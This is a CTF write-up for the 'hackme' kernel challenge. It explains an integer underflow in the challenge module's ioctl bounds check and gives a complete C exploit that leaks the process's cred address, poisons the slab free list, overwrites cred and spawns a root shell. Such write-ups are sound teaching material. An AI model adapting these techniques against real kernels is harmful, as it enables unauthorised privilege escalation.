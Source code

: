 ## hackme

This is a kernel exploitation challenge that requires us to get root to read the flag, and I failed to solve it in contest, but let's see.

An `ioctl` is implemented in `hackme.ko`. There are 4 commands: to create memory chunk using `kmalloc`, to delete memory chunk using `kfree`, to read memory chunk using `copy_to_user` and to write the memory chunk using `copy_from_user`. When reading and writing the memory chunks, `offset` and `size` can be specified to only read or write part of the memory chunk. Here is where the vulnerability comes from: there is a integer overflow.

```c
v9 = v19.idx;
v10 = pool[v9].buf;
v11 = &pool[v9];
if ( v10 && v19.off + v19.size <= v11->max_size )
{
  //when v19.off == -0x200L and v19.size == 0x200L
  //we can have a underflow
  //also works for read operation
  copy_from_user(&v10[v19.off], v19.usrbuf, v19.size);
  return 0LL;
}
```

### First Attempt

I initially tried to use [this method](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_uaf/). In one word, `kfree` a chunk with same size as `struct cred`, and then `fork`, so that the `struct cred` of new process will be the same one as the chunk just being `kfree`ed. Then rewrite this `struct cred` by underflow. However, this does not seem work. Since the `struct cred` of new process is not the same one as the one just being `kfree`ed. I don't know the reason. Maybe it is because the kernel version since that one is `4.4.72` and this one is `4.20.13`, or it is because the `flag` argument of `kmalloc` is different.

### Second Attempt

Then I tried to leak the `cred` first, using `prctl(PR_SET_NAME, comm)`. The detail is [here](https://poppopret.org/2015/11/16/csaw-ctf-2015-kernel-exploitation-challenge/). This works if I read `0x100000L` bytes. Also, we can also leak the address of our memory chunks by reading `next` pointer of freed chunk. After leaking addresses, I found `cred` is very far from the memory chunks, so we cannot rewrite it directly because that will cause kernel panic. 

The correct approach is to rewrite `next` pointer of the free list, a bit similar to `tcache poisoning` in `ptmalloc` exploitation. We can let `kmalloc` return an address near the `cred`, so we can rewrite `cred`. However, we don't want the free list to be corrupted since that will cause kernel panic, so we need to find a memory region whose first 8 bytes are all 0, fortunately `QWORD PTR [address of cred - 0x10] == NULL`.

Final exploit

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <memory.h>
#include <string.h>
#include <assert.h>

char tab[] = {'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H',
'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X',
'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n',
'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
'w', 'x', 'y', 'z', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', '+', '/'};


struct data
{
	unsigned int idx;
	char *usrbuf;
	size_t size;
	size_t off;
};
#define BUF_SIZE 0x100000L
struct data param = {0};
char buffer[BUF_SIZE] = {0};
int fd;

void init()
{
	fd = open("/dev/hackme",0);
	if (fd < 0)
		exit(-1);
	param.usrbuf = buffer;
}

void error_exit(char* msg)
{
	puts(msg);
	exit(-1);
}

void kmalloc(unsigned int idx, size_t size, char sig)
{
	memset(buffer, sig, sizeof(buffer));
	param.size = size;
	param.idx = idx;
	int ret = ioctl(fd, 0x30000, &param);
	if (ret < 0) error_exit("Error: kmalloc");
}

void write_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30002, &param);
	if (ret < 0) error_exit("Error: write_memory");
}

void read_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30003, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void kfree(unsigned int idx)
{
	param.idx = idx;
	int ret = ioctl(fd, 0x30001, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void printhex(char* pbuf, size_t size)
{
	unsigned char* buf = (unsigned char*)pbuf;
	for (size_t i = 0; i < size; ++i)
	{
		printf("%.2x", buf[i]);
	}
	printf("\n");
}

char comm[] = "201920192019";
#define CHUNK_SIZE 0x40L
int main(int argc, char const *argv[])
{
	uintptr_t cred;
	//if (argc == 1) exit(-1);
	prctl(PR_SET_NAME, comm);
	//size_t credsize = strtoul(argv[1], 0, 16);
	init();

	for (int i = 0; i < 64; ++i)
	{
		kmalloc(i, CHUNK_SIZE, tab[i]);
	}
	read_memory(63, BUF_SIZE, -BUF_SIZE);
	char* ret = (char*)memmem(buffer, sizeof(buffer), comm, sizeof(comm) - 1);
	if (ret)
	{
		cred = *(uintptr_t*)(ret - 8);
		assert(*(uintptr_t*)(ret - 0x10) == cred);

		//write(1, buffer, BUF_SIZE);
		printf("%p %p\n", (void*)(ret - buffer), (void*)cred);
		puts(ret);
	}

	const size_t LEAK_SIZE = 0x400L;

	puts("Before: ");
	kfree(62);

	kfree(61);
	read_memory(63, LEAK_SIZE, -LEAK_SIZE);
	//printhex(buffer, LEAK_SIZE);

	uintptr_t addr_62 = *(uintptr_t*)(buffer + LEAK_SIZE - CHUNK_SIZE*2);
	printf("%p\n", (void*)addr_62);

	*(uintptr_t*)buffer = cred - 0x10;
	write_memory(63, CHUNK_SIZE*2, -CHUNK_SIZE*2);


	memset(buffer, 0, CHUNK_SIZE);
	kmalloc(61, CHUNK_SIZE, '\x00'); //consume a chunk
	kmalloc(62, CHUNK_SIZE, '\x00'); //rewrite cred here

	system("/bin/sh");
    // execve will cause kernel panic, no idea why
    // and the exploit works for 80% probability

	return 0;
}
```



